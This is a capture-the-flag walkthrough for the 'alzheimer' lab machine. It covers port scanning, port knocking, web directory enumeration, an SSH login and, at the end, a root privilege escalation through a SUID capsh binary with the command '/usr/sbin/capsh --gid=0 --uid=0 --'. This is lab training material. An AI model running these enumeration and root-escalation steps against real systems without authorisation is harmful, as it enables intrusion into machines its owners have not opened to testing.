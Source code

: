 nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ nmap -p- -sV 192.168.56.254 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-07 12:25 EST
Nmap scan report for dominator.hmv (192.168.56.254)
Host is up (0.00060s latency).
Not shown: 65532 closed ports
PORT   STATE    SERVICE VERSION
21/tcp open     ftp     vsftpd 3.0.3
22/tcp filtered ssh
80/tcp filtered http
Service Info: OS: Unix
{% endhighlight %}
Logging into the ftp anonymously worked and we get a .secretnote.txt. 
.secretnote.txt:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ cat .secretnote.txt 
I need to knock this ports and 
one door will be open!
1000
2000
3000

{% endhighlight %}
let's use knock to see what this opens: 

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ knock 192.168.56.254 1000 2000 3000 -d 20 
                                                                                    
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ nmap -p- -sV 192.168.56.254
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-12 12:13 EST
Nmap scan report for vinci.hmv (192.168.56.254)
Host is up (0.00060s latency).
Not shown: 65532 closed ports
PORT   STATE    SERVICE VERSION
21/tcp open     ftp     vsftpd 3.0.3
22/tcp filtered ssh
80/tcp open     http    nginx 1.14.2
Service Info: OS: Unix

{% endhighlight %}

From the index webpage:
I dont remember where I stored my password :( I only remember that was into a .txt file... -medusa

gobuster to enumerate files and directories:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x html,php,txt,png,bin,pcap,jpg -u http://192.168.56.254/
/home                 (Status: 301) [Size: 185] [--> http://192.168.56.254/home/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.56.254/admin/]
/secret               (Status: 301) [Size: 185] [--> http://192.168.56.254/secret/]
{% endhighlight %}
Let's drill down into each directory and enumerate any directories and text files:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x html,php,txt,png,jpg -u http://192.168.56.254/secret/
/index.html           (Status: 200) [Size: 44]
/home                 (Status: 301) [Size: 185] [--> http://192.168.56.254/secret/home/]

{% endhighlight %}
Now into home:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/alzheimer]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -q -x html,php,txt,png,jpg -u http://192.168.56.254/secret/home
/index.html           (Status: 200) [Size: 62]
{% endhighlight %}
Let's enumerate any dot files that gobuster can't enumerate with wfuzz:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/winter]
└─$ wfuzz -z file,/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 -u http://192.168.56.254/secret/home/FUZZ.txt
{% endhighlight %}

This approach didn't work. So I turned to a guide that pointed out the changes made
to the .secretnote.txt file after the port knocking. Turns out the password is 
appended to the .secretnote.txt file.. 

Anyways, moving on to logging in over SSH.

After logging in I checked the sudo privileges of medusa. the only command that can 
be used is id. 

SUID bins:
{% highlight terminal %}
medusa@alzheimer:~$ find / -perm -u=s -type f 2>/dev/null 
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/sbin/capsh
{% endhighlight %}

capsh is an unusual entry. gtfobins has an entry for that binary, so let's use the 
method described on the page to get a root shell on the machine: 

{% highlight terminal %}
medusa@alzheimer:~$ /usr/sbin/capsh --gid=0 --uid=0 --
{% endhighlight %}
From here I got the root flag and submitted it. Hooray for points. 
